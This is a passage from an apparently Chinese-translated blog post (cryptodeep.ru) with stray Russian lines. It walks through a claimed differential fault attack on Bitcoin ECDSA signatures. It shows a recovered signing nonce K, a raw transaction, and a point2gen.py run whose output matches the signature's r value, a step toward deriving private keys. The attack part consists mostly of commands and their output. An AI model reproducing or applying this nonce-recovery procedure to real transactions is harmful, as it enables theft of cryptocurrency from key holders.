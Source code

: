 

<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-32-1024x491.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1614"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd

RawTX = 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>讓我們使用ECPy</strong></a>橢圓曲線庫：</p>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>



<pre class="wp-block-code"><code>python3 point2gen.py 0xf39222231d8ddbaa7425e3c3ff4ebdc86aff1a5449df5910eae18baeb8d5bddd</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-33-1024x92.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1616"/></figure>



<p><code>(0xaf4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f26 , 0x61200da995a31b5be6f875decb954d0e3f8c54d16f7428827a2436cd2fce9419)</code></p>
